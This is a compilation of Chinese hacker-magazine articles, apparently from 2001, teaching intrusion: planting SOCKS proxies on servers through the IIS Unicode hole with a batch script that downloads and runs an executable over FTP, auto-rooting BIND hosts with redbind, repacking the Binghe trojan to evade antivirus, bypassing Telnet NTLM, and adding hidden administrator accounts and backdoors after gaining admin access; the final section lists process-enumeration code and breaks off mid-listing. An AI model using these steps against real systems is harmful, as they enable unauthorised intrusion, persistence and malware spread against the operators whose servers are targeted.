成功的做好了一个 SOCK5 的代理以后，余下想要做的事情就由你自己决定了。你可以直接用他来做 OICQ 的代理，有人经常问我怎么来隐藏 OICQ 的 IP 地址，那这便是个方法。当然你也可以使用 SocksCap 这样的软件来设置 IE 的 HTTP 代理。总之有了自己的 SOCK5 代理可以做一些自己想做的事情，就看你怎么利用了。对于一个黑客，那他想做的事情当然就是使用 SOCK5 代理来隐藏自己。

以上是本人对制作跳板的一些了解，在高手眼里是一件很菜的技术，但我想这对广大的初级技术爱好者应该会有所帮助。另外需要声明一点，本人坚决反对使用它来做非法的事情，不听劝告，由此而引发的非法作为跟本人无关。最后请大家和我一起为中国的互联网安全努力。

## 利用 Unicode 漏洞

## 轻松建立自己的代理服务器

文/Nicky

snake 的 sksockserver（代理跳板）是一个非常好的 SOCKS5 代理服务器。它非常小巧，才 32K，但是可以比较完整的支持 TCP 协议和 UDP 协议，也支持 OICQ，而且它具有将通信数据在各跳板之间加密的功能。这使我们能很好的掩盖自己网上踪迹。不过，使用它需要一定的服务器入侵知识，这对新手菜鸟是个很大的挑战。因此，我写下这篇文章，希望对大家有所帮助。

- 所需软件：
- 流光 4：http://www.netxeyes.com/
- 代理跳板 SkSockServer：http://snake12.top263.net
- 代理猎手：http://dzc.126.com/

操作环境：Win98、WinME、Win2K、WinXP、WinNT 4.0，最好为 Win2K、WinXP、WinNT 4.0。

准备工作：请申请一个 FTP 空间，现在的免费主页大都带有 FTP 空间的。假设申请的 FTP 空间地址为 ftp.server.com，用户名为 tom，密码是 pass。将 SkSockServer.exe 改名为 char.exe 上传到 FTP 空间。改名的目的当然是为了不那么起眼，你随便改好了。

步骤 1：在 C 盘根目录下面建立一个文本文件 pp.txt，内容如下：

```
echo open ftp.server.com>af.txt
echo tom>>af.txt
echo pass>>af.txt
echo bin>>af.txt
echo get char.exe>>af.txt
echo bye>>af.txt
ftp -s af.txt
del a.txt
del af.txt
char -debug 5262
```

注意了，请用你的真实的 FTP 网站地址、用户名、密码代替上面的 ftp.server.com、tom 和 pass，否则就不会成功的。现在来检查你的文件是否正确，复制一份 pp.txt，将它的扩展名改为 bat，即将文件改名为 pp.bat。拨号上网，执行 pp.bat，如果你没有写错，那在 pp.bat 所在目录下面应该会有一个 char.exe。如果 char.exe 文件不在，检查你的网络连接是否正常，自己用 FTP 软件去看看自己的空间里面是否有 char.exe 这个文件。最重要的要检查 FTP 服务器有没有写错，用户名和密码是否正确。

我来解释一下这个文件的意思。如果你学过 DOS，就会很清楚上面 pp.txt 文件的作用了。

echo 命令是在屏幕上显示你输入的字符。如，在 DOS 下面，输入

echo hello

那它就会显示

hello

“>” 是重定向符号，执行 DOS 命令

echo hello>a.txt

命令执行的结果是将 hello 写在一个 a.txt 文件上，原先 a.txt 文件的内容会被删掉，变成只有 hello 这个单词。如果 a.txt 文件不存在，那它会自己生成一个新文件。“>>” 和 ">" 不同的地方是它不会删掉文件原有的内容，只会在文件后面追加新内容。

好了，我们来看 pp.txt 文件执行的结果

```
echo open ftp.server.com>af.txt
echo tom>>af.txt echo pass>>af.txt
echo bin>>af.txt echo
get char.exe>>af.txt echo bye>>af.txt
```

上面这几个命令执行的结果是在当前路径下生成一个 af.txt 文件，内容如下：

```
open ftp.server.com
tom
pass
bin
get char.exe
bye
```

然后是执行 ftp -s af.txt

af.txt 文件是一些 FTP 命令，执行的结果是先连接到 ftp.server.com 这个 FTP 服务器，然后输入用户名 tom，输入密码 pass，再转入二进制传输模式，接着是下载 char.exe 这个文件，最后用 bye 命令退出 FTP 服务器。

下面的就没有什么好说了，del a.txt、del af.txt 分别是删除 a.txt、af.txt 文件，char -debug 5262 是在 5262 端口上进行 SOCKS5 服务。

步骤 2：打开流光 4 按 Ctrl + R，在弹出的对话框中，填写你想搜索的 IP 范围，建议搜索台湾、美国或者日本的网站，它们漏洞比较多。扫描主机类型改为 IIS/FrontPage。这里我搜索 210.59.70.1 - 210.59.72.254。搜索结束后会弹出提示的，这里我用了约 5 分钟时间。在流光中间一栏会出现你搜索到的结果，分为主机、系统版本、类型、描述四项。如果主机是黑色的，也就是在类型那一栏里写着 Remote Execute X，X 是从 A 到 E 之间的字母，那这台主机就是有 Unicode 漏洞了。点击它，选连接，将允许 IIS 检测 CMD去掉，然后我们就可以执行命令了。

步骤 3：先输入一个命令，看看它是否允许我们写入文件。我们输入 `echo hello>a.txt`

这时，可能出现几种提示：

- A. 如果允许写入文件，就会显示 `echo hello>a.txt`，那这台服务器就可以作为我们的跳板了。
- B. 服务器不允许写入，那么会显示 `echo hello>a.txt Access is denied.`，这表示这台服务器不允许我们写入文件，去找下一台吧，这台没戏了。
- C. 使用了陷阱技术 `echo hello>a.txt HTTP/1.1 502 Gateway Error`，那可能是主机做了一定的防范措施，但通常是已经成功写入文件了，如果没有，就试多几次，一般都能成功。
- D. 其它，我也不知道原因了。试试直接执行下面步骤吧，也许会成功。

好了，出现 A 和 C 的情况，那表示这台主机可以作为跳板了。再输入 `local file c:\pp.txt`

这个命令就是让流光依次执行 `c:\pp.txt` 里面的指令，免除我们一个个输入的麻烦。它的输出大致如下：

```
local file c:\pp.txt
echo open ftp.server.com>af.txt
echo tom>>af.txt
echo pass>>af.txt
echo bin>>af.txt
echo get char.exe>>af.txt
echo bye>>af.txt
ftp -s af.txt
del af.txt
char - debug 5262
```

在有些机器上执行的输出有些差异，但基本上是这样的。如果在其中的某一个命令出现了 “HTTP/1.1 502 Gateway Error”，有时你要重新执行一下 `local file c:\pp.txt`。

如果出现 Connect Failed，那可能是你的网络连接有问题，检查一下是不是掉线了，再重新执行 `local file c:\pp.txt`。

步骤 4：我们现在来验证跳板是否真正运行。运行代理猎手，添加结果，将上面那台主机的 IP 加上去，端口是 5262，协议是 socks5。验证它的结果是否 free。如果是就行了。不是重新执行一次 `local file c:\pp.txt` 吧。再不行只好放弃了，另外找一台机器好了。关掉 IIS 远程命令行，再选择另外一台有 unicode 漏洞的机器重复步骤三，这样就可以将所有搜索到的 unicode 漏洞机器作为你的跳板了。

步骤 5：运行 skserver 图形版本，选配置 - 加上的 skserver，将刚才弄好的一两个跳板加上去。在这里不要加太多的跳板，否则会影响你的浏览速度，如果没有特殊需要，一个就可以了。按 ok 后在命令里面选择停止，再选择开始，你现在就拥有了一个加密的 socks5 代理。可以用 sockscap 或者 net e-border client 等 socks 接口软件来调度你的网络程序，现在就尽情的冲浪吧。

注意事项：当你利用 unicode 漏洞时候，你会在主机上面留下 IP 记录，所以一定不要在国内的服务器上面作这种实验，否则后果自负！因为利用 unicode 漏洞得到的权限很低，所以不能让 sksockserver 作为服务运行，也就不能让它每次开机自动运行了。如果它停了你可以很方便的再次运行它。和建立时候一样，打开 IIS 命令行，然后运行这个命令就可以了：

```
char - debug 5262
```

致谢：非常感激 snake 的代理跳板，它让我可以穿过学校的封锁，尽情的冲浪。也谢谢小榕，它的流光是我见过最强大而简单的黑客软件。当然了，我更加不会忘记太阳风，他的代理猎手是带领我走进网络之门的程序。

## Named 漏洞利用

文/Bytes

### 一、描述

在 Mandrake 7.0 中，bind 以 user/group 的 root 身份执行。这样能很容易的突破限制，并且一个切换中的用户能很容易的在 named 中增加选项。

### 二、实现

这里介绍一种叫做 redbind 的工具。首先你必须有一台 linux 跳板，登陆后上传 redbind.tgz，解压缩后无需编译，包含有三个文件 redscan、redbind、redbind1，通常会自动生成一个 redbind 目录。

```
cd redbind
```

```
$ ./redbind 61.132
```

现在假设开始扫一个 B 段，并且会自动攻击有漏洞的主机。攻击成功自动出来一个 rootshell。

你可以用：

```
$ ./usr/sbin/adduser www 开个 www 账号
```

```
$ ./usr/bin/passwd www 给他加个密码
```

如果你想退出 rootshell，按 ctrl + c 后继续扫描；如果扫描停顿，也可按 ctrl + c 后继续扫描。


编者按：自从特洛伊木马病毒问世以来，病毒的功能越来越强大，但不论如何变化，此类病毒的设计思路和工作原理是不变的，所以，大家把精力越来越多地用在如何伪装及成功植入病毒上，看过本文后，你使用木马的技巧肯定又能 Level up 了。

文/劲刀狂舞

现在黑市（黑客超市）上关于木马冰河的版本很多，各个版本的功能大体相似，大多只是改了资源（Resource）。我们可以更改冰河的资源达到以下目的：

- 1. 更改冰河服务端的图标，使其更具有欺骗性。
- 2. 更改冰河服务端的万能密码，做个有自己个性的冰河。
- 3. 更改冰河的更多信息，使得普通杀毒软件更难辨认。

下面我们就说一说冰河的改制过程。

所用工具有：冰河的最初版本、VC++ 6.0（微软可视化编程软件）、UltraEdit32（一个文件编辑器）、upx（一个压缩的解压软件）、诺顿杀毒软件（检验改装效果）。

我们把冰河放到一个目录下，我们这里是 `F:\lab\hack\binghe\`，共两个文件：
- `G_Server.exe`：被监控端后台监控程序，运行一次即自动安装，可任意改名；
- `G_Client.exe`：监控端执行程序，用于监控远程计算机和配置服务器程序。

### 更改冰河服务端的图标


图 1

打开 UltraEdit32 找到服务端 `G_Server.exe` 打开，如图 1 所示。

我们注意图一中用鼠标画上的部分，显示 `$ Info This file is packed with the UPX executable packer http://upx.tsx.org`。表明我们打开的冰河版本是用 UPX 压缩过的。于是到那里的提示找到了 UPX 这个软件，下载完毕。UPX 是一个命令行的压缩软件，于是我们解压 zip 包到冰河所在目录 `F:\lab\hack\binghe\`。如图 2。


图 2

我们运行 upx.exe 得到以下提示：

```
Usage    upx    -123456789dlthVL    -qvfk    -o file    file..
Commands
-1    compress faster    -9    compress better
-d    decompress    -l    list compressed file
-t    test compressed file    -V    display version number
-h    give more help    -L    display software license
Options
-q    be quiet    -v    be verbose
-oFILE write output to `FILE'
-f    force compression of suspicious files
-k    keep backup files
file.. executables to    de    compress
This version supports    dos/exe    dos/com    dos/sys    djgpp2/coff    watcom/le
win32/pe    rtm32/pe    tmt/adam    atari/tos    linux/386
UPX comes with ABSOLUTELY NO WARRANTY    for details type `upx - L'.
```

笔者的英语水平一般，可以看出可以通过 Commands 对文件进行压缩和解压操作。压缩运行 `UPX -1+参数（1 到 9）+文件名`，解压 `UPX -d+文件名`。

我们对 `G_server.exe` 进行解压。

```
运行 F:\lab\hack\binghe>upx -d G_server.exe
Ultimate Packer for eXecutables
Copyright © 1996 1997 1998 1999 2000 2001
UPX 1.20w Markus F.X.J. Oberhumer & Laszlo Molnar May 23rd 2001
File size Ratio Format Name
upx G_server.exe IOException file is write protected - - skipped
Unpacked 0 files.
```

咦？不成功，原来目标文件处于写保护状态，更改写保护状态。

# 黑客防线精华本 2001

```
运行 F:\lab\hack\binghe>upx -d G_server.exe
Ultimate Packer for eXecutables
Copyright © 1996 1997 1998 1999 2000 2001
UPX 1.20w Markus F.X.J. Oberhumer & Laszlo Molnar May 23rd 2001
File size Ratio Format Name
693248 < - 266240 38.40% win32/pe G_server.exe
Unpacked 1 file.
```

我们再看看冰河 G_server 属性，从原来的 266KB 变成了现在的 693KB，说明我们解压成功了。我们又用同样的方法解压 `G_Client.exe`，1318KB。

打开 VC++ 6.0，选择打开，打开方式 Resources，文件类型 Executable Files .exe ; .dll ; .ocx，如图 3 所示：


图 3

找到 icon 中的 MAINICON，看到了我们要的图标，如图 4 所示：


图 4

我们可以更改这个图标了，选择 icon 中的 MAINICON 点击右键，选择 Import，我们选择一个 icon 文件，删除资源文件的 MAINICON，把新导入的文件图标名称改成 MAINICON 后保存，我们就得到了这个文件的新图标。

我们用同样的办法可以更改文件其他图标资源。要达到欺骗目的我们更改了服务端 `G_Server.exe` 图标资源。更改好的图标如图 5：


图 5

怎么样，`G_Server.exe` 的能不能欺骗到你呢？哈哈！

最后别忘了用 UPX 压缩我们的文件。具体命令为：`upx -9 G_Server.exe`（我们这里用的是最大的压缩比例）。

### 更改冰河服务端的万能密码

我们用 UltraEdit32 打开解压后的 `G_Server.exe`，我们知道冰河的密码是 05181977。我们选择 Search=>Find，查找内容 05181977，字节属性为 ASCII。如图 6 所示：


图 6

于是我们找到了冰河的万能密码，如图 7 鼠标圈上蓝线的所示：


图 7

我们更改这 8 个数字就可以了。

如果我们不知道一些版本的冰河，也可以用 UltraEdit32 打开那个未知的版本和这个版本进行比较。既可以得到一个惟一的不同处，就是万能密码。

### 更改冰河的更多信息

要实现这个功能也很简单，我们知道大部分杀毒软件都是由一个软件和病毒库组成。杀毒软件要想识别一个病毒就会看被感染文件是否含有特征的字符。

知道了这个我们就可以更改冰河的特征字符了。

我们用 UltraEdit32 打开解压后的 `G_Server.exe`，利用查找工具查找相关字符。删除例如冰河，木马，05181977 binghe 和黄鑫喜欢的歌词铁窗（服务端有一段铁窗的歌词）等。最后在用 upx 压缩就可以了。这样我们用杀毒软件再扫描病毒就找不到了。如图 8：


图 8

最后我们不得不再说一句，己所不欲，勿施于人。我们改了这个东西没什么技术可言，只是给大家提个思路，必要时兴许有用处。

## 最快速登录 WIN2K TELNET 服务

文/韶华倦客

不甘寂寞的 Windows 2000 在系统里自带了 TELNET 服务，但却使用了 NT4 时代的身份验证机制。NTLM ( NT LAN MANAGER )。

### 一、原来的方法

记得以前的文章里在谈到使用 WIN2K TELNET 服务做入侵后门的时候，就是因为这个 NTLM 验证导致整个过程非常烦琐。呵呵，费时费力。我整理了一下步骤。

- 1. 获得对方管理员帐号的密码；
- 2. 启动对方 TELNET 服务；
- 3. COPY 一个修改注册表的可执行程序到对方机器上（呵呵，记得小榕写了一个吧）；
- 4. 利用计划任务去运行那个传上去的程序（如果计划任务没有启动，还需要远程将其启动）；
- 5. 停止并重启 TELNET 服务；
- 6. 在客户端进行连接，需要输入对方机器用户名、密码。

在这一过程中，可以简化为，先不启动 TELNET 服务，不 COPY 修改注册表的工具，而直接通过本地的注册表来管理对方的注册表，直接图形界面修改，再利用 AT 去启动 TELNET 服务。

比如，我利用 regedit.exe 连接网络计算机的方式连接上了对方机器（192.168.0.12），如图 1。


图 1

找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0` 下的 NTLM 键，将缺省的值“2”修改为“1”或者“0”。

这样，TELNET 服务的登录验证方式就已经被修改了。

然后使用“`netsvc \192.168.0.12 telnet /start`”这样的方法去启动 TELNET 服务。

在这里特地要多罗嗦几句：

- 0：代表不使用 NTLM 身份验证，而使用输入用户名/密码的方式验证。
- 1：代表先尝试 NTLM 身份验证，如果失败，再使用用户名/密码的方式进行验证。
- 2：代表只使用 NTLM 身份验证。

### 二、其实我们可以这样

当我们在用 telnet 客户端去连远程的 WIN2K TELNET 服务器的时候，系统是这样说的：

> “您将要发送密码信息到 Internet 区域中的远程计算机。这可能不安全。是否还要发送 y/n”

呵呵，很明显，系统会用当前用户的身份去尝试连接远程的系统，由于身份不同，自然验证关是过不了的。

呵呵，所以，我们除了修改服务器端的验证方式之外，还可以修改自己连接身份嘛。

LOOK，看例子。

我取得了对方服务器（192.168.0.12）的管理员帐号和密码。

首先，确认通过 NET USE 建立会话确认密码帐号没有问题，如图 2。


图 2

用户名为：admin，密码为：passwd

这时候，启动远程服务器的 TELNET 服务，如图 3。


图 3

这样 TELNET 服务就已经在对方服务器上启动了。

下一步，我们在自己的机器上添加一个和对方相同的帐号。如图 4。


图 4

然后选中开始→程序→附件→命令提示符，并单击右键调出属性，如图 5。


图 5

将“以其他用户身份运行”选项选中，再单击命令提示符，启动 cmd.exe，系统会弹出一个提示框，如图 6。


图 6

将刚才创建的帐号名称/密码输入即可。这时，系统就创建了一个以 admin 身份运行的 cmd.exe 程序。

最后，在这个环境里，用 `telnet 192.168.0.12` 去连接对方服务器，就很顺利地出现了，如图 7。


图 7

呵呵，搞定了，总结一下步骤：

- 1. 获得对方管理员帐号的密码；
- 2. 启动对方 TELNET 服务；
- 3. 本机添加一个相同的帐号；
- 4. 本机修改 cmd.exe 程序的启动模式；
- 5. 在客户端进行连接，不需要输入对方机器用户名和密码就连上了。

快多了吧？

这种方法的 最大好处就是，不需要修改远程服务器上的任何配置，只需要正常启动对方的 TELNET 服务即可。

## 黑客得到 NT 的 Admin 以后能做什么

文/iceblood

现在的企业当中一般都是使用的 NT 系统，也不得不承认，NT 系统的确是非常适合企业使用的操作系统，然而黑客的攻击引来的企业信息安全危机……

当有人看了这个标题也许会说：“得到了 NT 的 Admin 还能做什么，还不是想做什么就做什么呗。”但到底能做什么呢？能详细答出来的只怕不会很多，而且很多企业系统管理员就以为密码为空没什么，因为他们压根就不知道“黑客”会怎么做。本文介绍的就是得到 NT 的 Admin 密码以后入侵一个企业计算机群的初级和中级手法，尤其是在一个大型企业当中，企业系统管理员的密码往往关系着整个公司的信息泄密，以及公司数据的丢失，严重的影响到一个企业的生存和发展。

首先，我们先假定得到了某个企业的一台服务器 192.168.0.1 的 Administrator 的密码，而对方没有关闭 139 端口。

### 普通共享资源的入侵

这种入侵手法可说是 NT 最简单的入侵了，随便在自己机器的哪个窗口的地址栏里输入 `\\192.168.0.1`，大概等 1~2 秒，对方就会要求你输入用户名和密码，输入所得到的用户名和密码以后就可以进入，并可以看到这台服务器在企业中的共享资源了，由于权限是 Admin，所以你几乎可以删除对方共享资源里的任何东西（如果设置了共享为只读那就没办法了）。

### 默认及隐藏共享资源的入侵

在说这种入侵方法之前我先来给大家介绍一个 NT 的 IPC$ 连接，在默认情况下 NT 系统有一个特殊的隐藏共享，就是 IPC$ 共享。IPC$ 是专门用在 NT 中的一种管道通讯，NT 系统之间的通讯大部分都由 IPC$ 完成的。

这次手法相对高明一点，但还是很简单的，不过关键还是要看“黑客”如何利用了，有的人可能只能删删文件，有的人却可以利用这个留下后门，以便下次如果密码改变了后可以利用后门进入。同样在机器里随便打开一个窗口，在地址栏输入 `\\192.168.0.1` 就会要求输入密码，输入以后所看到的东西和前面介绍的一样，好现在同时也建立好 IPC$ 连接了，其实在提示你输入密码时从输入窗口中也知道了是建立 IPC$ 连接。然后我们再次在地址栏输入地址，这次输入的就有点不同了，输入 `\\192.168.0.1\c$` 大概过一会就出现了对方 C 盘里所有的内容了。如果想看对方 D 盘，同样，输入 `\\192.168.0.1\d$` 就看见对方 D 盘了。这时如果想换这个企业的主页（假如对方还是一个 WEB 服务器）可说是轻而易举，记住由于权限是管理员当然可以写了。留不留后门就看“黑客”的想法，一般他们会在 C 盘（假设在 `c:\winnt` 下）建立一个批处理文件，假设文件名为 Hack.bat，其内容一般为：

```c
net user hack 1234 /add # 建立一个名为 hack 密码为 1234 的用户
net localgroup administrators hack /add # 让 hack 也是管理员
del C:\Documents and Settings\administrator\“开始”菜单\程序\启动\hack.lnk # 删除启动文件夹里的快捷方式消除足迹
del c:\winnt\hack.bat # 删除 hack.bat 这个文件消除足迹
```

这样当企业系统管理员在下次登陆时就会偷偷的添加一个用户了。当然其实添加用户算是一个比较愚蠢的留“后门”的方法了，所以很多“黑客”其实会放一个可以常驻内存的小程序，然后建立一个类似的批处理文件和快捷方式，那么“黑客”基本上可以长期的占有企业中的这台主机了。

### IPC$ 连接入侵的提高

然而每个“黑客”都不可能那么笨，非要一直等到下次企业系统管理员登陆以后才可以占有，往往“黑客”会使用更加巧妙的手法，迅速的留下后门。首先他们还是先建立 IPC$ 连接，连接以后他们会使用各种手法开后门，比如打开 Telnet 服务，黑客怎么打开 Telnet 服务呢？其实有很多种方法，比如微软公司自己就出了一个小程序（Netsvc.exe），就是专门让系统管理员在建立 IPC$ 连接以后远程打开服务用的管理工具，但这个工具到了“黑客”手中自然也成了必不可少的“黑客”工具了，在命令符下输入 `netsvc \\192.168.0.1 telnet/start` 大概等 5 分钟对方的 Telnet 服务就打开了，然后 `telnet 192.168.0.1`，需要 NTLM 验证，这下又把“黑客”拦在了外面了，这时他们又会用到一个小程序了，就是专门关闭一个 NTLM 验证的程序 Ntlm.exe。（当然也可以是其他名字）`copy ntlm.exe \\192.168.0.1\admin$\system32` 把 Ntlm.exe 复制到服务器的 System32 目录，复制过去了，可怎么让他运行呢？当然多的是办法了。`net time \\192.168.0.1` 看看对方系统时间为多少假设为 18:00。现在再输入 `at \\192.168.0.1 18:02 ntlm.exe`，等一会后，命令提示符显示新加任务 ID=0，意思是对方系统在 18:02 时运行 Ntlm.exe 这个程序，等到 18:02 一过，然后再 `telnet 192.168.0.1`，这回是提示需要输入用户和密码了，输入所得到的管理员用户名和密码以后就成功的 Telnet 到了企业服务器了。不过这样一下是 Netsvc，一下又是 At 实在是麻烦。现在就介绍另一个方法，首先还是先感谢微软为 NT 系统管理员提供的方便的管理功能，这一功能到了“黑客”手中可说是“黑客”的福音，不用“黑客”再这么麻烦的输入这样那样的命令了，建立好 IPC$ 连接以后（IPC$ 连接果然是一种功能非常强大的管理连接），打开本地计算机里的“计算机管理”，用鼠标右键点计算机管理窗口里的“计算机管理（本地）”里面有“连接到另一台计算机”选择它，在“名称”里输入 `192.168.0.1` 确定以后，首先你的 NT 系统会看是否建立 IPC$ 连接，“有”就连接上去了，现在你就可以直接管理 192.168.0.1 了，比如看他的日志，启动他的服务（当然包括 Telnet 了），管理他的 IIS，什么都有。多研究一下，连注销对方系统当前登陆的用户，重新启动对方计算机，关闭对方计算机都有，真是强大。NT 系统到了“黑客”手中，整个系统都成了一个“黑客”工具了，而且是功能非常强大的“黑客”工具。

启动了 Telnet 了，可还是要 NTLM 验证怎么办？简单，在本地计算机建立一个用户名和密码相同的用户，如果已有就把密码改为相同，然后使用这个用户登陆，`telnet 192.168.0.1`，连密码都不用输入了，因为通过 NTLM 验证了。

看了以上文章，现在那些安全意识差的企业系统管理员们知道了暴露了管理员密码的危险性了吧？还没完呢，都到这一步了还没完？

### 入侵的深入

“黑客”当然不会仅仅在攻陷一台服务器以后就立刻罢手了，他会深入入侵你的内网，尤其是在一个企业中，往往都有一大片的计算机，那些商业间谍“黑客”就更加的想入侵到企业内部去了，而很多企业系统管理员喜欢把所有的服务器的密码设为一样，就给“黑客”提供了一个良好的入侵条件，Telnet 到对方服务器以后，输入 `net view`，企业中整个工作组或域的计算机这时都一览无余。同样在 Telnet 里建立 IPC$ 连接以后，就象入侵服务器一样的入侵了，前面说的建立 IPC$ 连接都是使用的图形界面，然而这时候已经不再拥有图形界面了，现在假设企业内网的 192.168.0.2 的密码和这台服务器密码相同，这时可以使用 `net use \\192.168.0.2\ipc$ "passwd" /user username` 来建立 IPC$ 连接了，然后是映射驱动盘，输入 `net use z: \\192.168.0.2\c$` 这样就把 192.168.0.2 的 C 盘映射到 192.168.0.1 的 Z 盘去了。输入 `z:` 这样同样可以象浏览 192.168.0.1 的硬盘一样，浏览 192.168.0.2 的 C 盘。而如果他是商业间谍“黑客”，一旦发现里面有价值的东西自然不用说将来会发生什么事了。当然这往往还算是最好的条件，其实还是有相当一部分企业系统管理员不会把密码设为一样的。现在就看网络的情况了，如果入侵的正好是一台主域控制器，那对于商业间谍来说可是高兴死了，赶快把自己升级成域管理员，这下整个企业的一个域的机器都落在了他的手中。当然在“黑客”手中这也算是一种非常好的情况。但现在微软形形色色的漏洞越来越多，同时也根据“黑客”经验的多少入侵内网的机会也越来越大，在一个企业中，往往直接连接 Internet 的是 WEB 服务器，而一个有耐性的“黑客”，一个想入侵这个企业的商业间谍当然会不惜一切手段入侵，其中一个手法就是利用 WEB 服务，微软公司在今年出现的 MIME 漏洞就有很好的利用价值，有了这个漏洞，“黑客”将会更换 WEB 服务器的主页，在主页里把 MIME 漏洞攻击代码插进 HTML 中，使得企业内部的员工在浏览自己公司主页时运行指定的程序。对于企业内部来说，绝对不可能从来不看自己的主页的，尤其是象企业负责人，他们一般都会不定期的检查主页。那么他们在浏览自己的主页时就无声无息的执行了“黑客”所指定的程序，这个程序可能是木马，也可能同样是添加用户的批处理文件。

由上面可以看出，一旦 NT 系统的密码泄露是一件多么危险的事情，尤其在一个企业当中，同时也看出一个企业网络的拓扑是否合理也起着非常重要的作用。

## 其他入侵

这里所说的并不是说不重要，而是补充一下上面没有说到的东西以及一些也是非常简单的手法。其他还可以通过 3389 端口入侵，3389 是 Win2000 系统自带的，并且是图形界面的，远程管理服务端的端口，“黑客”一旦有了管理员密码，危险性也更加直观化了。另外就是通过 IIS 的管理入侵，在默认情况下 IIS 提供一个 WEB 方式的管理服务，在 `c:\inetpub\wwwroot` 里有一个叫 IISstar.asp 的东西，如果可以访问，而且有管理员密码（NT4 里不是管理员也可以，只要是 NT 的合法帐号）就可以远程通过 WEB 方式管理 IIS 信息服务，然后通过特殊手法进一步控制整个机器，然后是整個企业……

## 枚举本地及远程 NT 系统进程

文/eyas

本文并没有什么新的技术，只是做一些归纳总结吧。在这过程中参考了部分书籍和网上的一些资料，加上自己的一些理解，列举枚举本地/远程 NT 系统进程的几种方法，希望对大家有所帮助。

Windows2000 中有个工具 Taskmgr.exe 就可以比较详细的查看当前系统进程信息，但是那是 Windows GUI 程序，有时候是不是觉得命令行下的东西更方便呢？其实已经有不少命令行下的枚举系统进程的工具了，M$ 的 Resource Kit 中好象也有，但是你需要去了解他们是怎么实现的。如果我们自己动手做一个出来，是不是更有意思呢？

进程通常被定义为一个正在运行的程序的实例，它由两部分组成：

- 1. 操作系统用来管理进程的内核对象。内核对象也是系统用来存放关于进程的统计信息的地方。
- 2. 地址空间。它包含所有可执行模块或 DLL 模块的代码和数据，还包含动态内存分配的空间，如线程的堆栈和堆分配空间。

枚举系统进程的实现方法大概有四种，我们分别来看看，其中有一种可以用来枚举远程 NT 系统的进程，前提是有远程系统的管理员权限。

### 调用 PSAPI 函数枚举系统进程

M$ 的 Windows NT 开发小组开发了自己 Process Status 函数，包含在 PSAPI.DLL 文件中这些函数只能在高于 NT4.0 以后的版本中使用。PSAPI 一共有 14 个函数（实际 PSAPI.DLL 输出函数有 19 个，但其中有 5 个函数有两个版本，分别是 ANSI 和 Unicode 版本），通过调用这些函数，我们可以很方便的取得系统进程的所有信息，例如进程名、进程 ID、父进程 ID、进程优先级、映射到进程空间的模块列表等等。为了方便起见，以下的例子程序只获取进程的名字和 ID。

简单的程序如下：

```c
/* ***************
Module    ps.c
说明：调用 PSAPI 函数枚举系统进程名和 ID , Only for NT/2000
***************/
#include <windows.h>
#include <stdio.h>
#include "psapi.h"
#pragma comment(lib, "psapi.lib")

void PrintProcessNameAndID(DWORD processID) {
    char szProcessName[MAX_PATH] = "unknown";
    //取得进程的句柄
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, processID);
    //取得进程名称
    if (hProcess) {
        HMODULE hMod;
        DWORD cbNeeded;
        if (EnumProcessModules(hProcess, &hMod, sizeof(hMod), &cbNeeded)) {
            GetModuleBaseName(hProcess, hMod, szProcessName, sizeof(szProcessName));
        }
    }
    //回显进程名称和 ID
    printf("\n%-20s%-20d", szProcessName, processID);
    CloseHandle(hProcess);
}

void main() {
    DWORD aProcesses[1024], cbNeeded, cProcesses;
    unsigned int i;
    //枚举系统进程 ID 列表
    if (!EnumProcesses(aProcesses, sizeof(aProcesses), &cbNeeded))
        return;
    // Calculate how many process identifiers were returned.
    //计算进程数量
    cProcesses = cbNeeded / sizeof(DWORD);
    // 输出每个进程的名称和 ID
    for (i = 0; i < cProcesses; i++) {
        PrintProcessNameAndID(aProcesses[i]);
    }
}
```

基于 PSAPI，shotgun 写了个比较完整的命令行下内存进程/模块查看器，可以显示内存中所有的进程及进程调用的所有模块文件 (DLL)，可以用来协助程序、DLL 的调试，也可以用来查找 DLL 木马和后门。有兴趣的读者可以从 `http://www.patching.net/shotgun/ps.zip` 下载，压缩包包含 C++ 源代码。

### 调用 ToolHelp API 枚举本地系统进程

在前面提到的 PSAPI 函数只能枚举 NT 系统的进程，在 Windows9x 环境下我们可以通过调用 ToolHelp API 函数来达到枚举系统进程的目的。M$ 的 Windows NT 开发小组因为不喜欢 ToolHelp 函数，所以没有将这些函数添加给 Windows NT，所以他们开发了自己的 Process Status 函数就是前面提到的 PSAPI 了。但是后来 M$ 已经将 ToolHelp 函数添加给了 Windows 2000。ToolHelp 共有 12 个函数，通过调用这些函数可以方便的取得本地系统进程的详细信息，以下这个简单的例子只调用了三个函数，获取我们所需要系统进程名字和进程 ID。程序如下：

```c
/* * * * * * * * * * * * * * * * * *
Module ps.c
说明: 调用 ToolHelp 函数枚举本地系统进程名和 ID, Only for 9x/2000
* * * * * * * * * * * * * * * * * */
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

int main() {
    HANDLE hProcessSnap = NULL;
    PROCESSENTRY32 pe32 = {0};
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE) {
        printf("\nCreateToolhelp32Snapshot failed %d", GetLastError());
        return 1;
    }
    pe32.dwSize = sizeof(PROCESSENTRY32);
    printf("\nProcessName\tProcessID");
    if (Process32First(hProcessSnap, &pe32)) {
        do {
            printf("\n%-20s%d", pe32.szExeFile, pe32.th32ProcessID);
        } while (Process32Next(hProcessSnap, &pe32));
    } else {
        printf("\nProcess32First failed %d", GetLastError());
    }
    CloseHandle(hProcessSnap);
    return 0;
}
```

### 调用 NTDLL.DLL 中未公开 API 枚举本地系统进程

前面说的是调用 MS 公开的 API 来枚举系统进程，在 NTDLL.DLL 中其实有一个未公开 API，也可以用来枚举系统进程。此方法是从别处看来的，出处记不清楚了，好像是 pwdump2 中的源代码中的一部分吧。

那个未公开 API 就是 NtQuerySystemInformation，使用方法如下，以下代码是从 pwdump2 中修改了一点点而来的：

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

typedef unsigned long NTSTATUS;
typedef unsigned short USHORT;
typedef unsigned long ULONG;
typedef unsigned long DWORD;
typedef long LONG;
typedef __int64 LONGLONG;

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaxLength;
    PWSTR Buffer;
} UNICODE_STRING;

struct process_info {
    ULONG NextEntryDelta;
    ULONG ThreadCount;
    ULONG Reserved1[6];
    LARGE_INTEGER CreateTime;
    LARGE_INTEGER UserTime;
